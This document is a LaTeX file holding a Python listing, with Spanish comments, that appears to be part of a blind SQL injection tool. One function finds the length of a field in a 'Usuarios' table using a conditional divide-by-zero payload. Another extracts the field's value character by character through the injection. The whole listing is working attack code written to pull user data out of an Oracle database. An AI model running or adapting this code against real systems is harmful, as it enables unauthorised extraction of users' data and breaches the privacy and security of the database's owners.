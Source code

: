 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{lstlisting}[language=Python, basicstyle=\ttfamily\footnotesize]
def obtener_longitud_por_fila(campo, indice, max_length=40): # Asumimos que como máximo un campo tendrá 40 caracteres
    """
    Determina la longitud de un campo específico para una fila específica en la base de datos.
    """
    print(colored(f"\n[+] Determinando la longitud de '{campo}' para la fila {indice}...", "yellow"))
    for longitud in range(1, max_length + 1):
        # Construir el payload con el índice de la fila
        payload = (
            f"d382yd8n21df4314fn817yf6834188ls023d8d' "
            f"AND (SELECT CASE WHEN (LENGTH({campo}) = {longitud}) THEN 1 ELSE 1/0 END FROM "
            f"(SELECT {campo}, ROWNUM AS rn FROM Usuarios) WHERE rn={indice}) = 1 --"
        )
        with yaspin(text=f"Probando longitud {longitud} para la fila {indice}...", color=None, attrs=None) as spinner:
            time.sleep(0.1)  # Reducir la carga en el servidor
            if enviar_inyeccion(payload):
                spinner.ok("OK")
                print(colored(f"[*] La longitud de '{campo}' en la fila {indice} es: {longitud}", "green"))
                return longitud
            else:
                spinner.fail("FAIL")
    print(colored(f"[!] No se pudo determinar la longitud de '{campo}' en la fila {indice}.", "red"))
    return 0


def extraer_campo(campo, longitud, indice):
    """
    Extrae el valor del campo especificado carácter por carácter para una fila específica.
    """
    resultado = ""
    # Limitar el conjunto de caracteres a probar para mayor eficiencia
    caracteres = string.ascii_lowercase + string.ascii_uppercase + string.digits + string.punctuation
    print(colored(f"\n[+] Extrayendo el valor de '{campo}' para la fila {indice}...", "yellow"))

    for pos in range(1, longitud + 1):
        encontrado = False
        print(colored(f"\n[+] Extrayendo carácter {pos} de {longitud} para la fila {indice}...", "cyan"))
        with yaspin(text=f"Probando carácter en posición {pos}...", color=None, attrs=None) as spinner:
            for caracter in caracteres:
                inyeccion = construir_inyeccion(campo, pos, caracter, indice)
                if enviar_inyeccion(inyeccion):
                    resultado += caracter
                    spinner.text = f"Carácter {pos}: '{caracter}' encontrado."
                    spinner.ok("OK")
                    print(colored(f"[+] Inyección utilizada: {inyeccion}", "cyan"))
                    encontrado = True
                    break
                time.sleep(0.05)  # Opcional: Reducir la carga en el servidor
            if not encontrado:
                spinner.fail("FAIL")
                print(colored(f"[!] No se encontró un carácter coincidente en la posición {pos}.", "red"))
                resultado += '?'
    return resultado



\end{lstlisting}
\end{document}
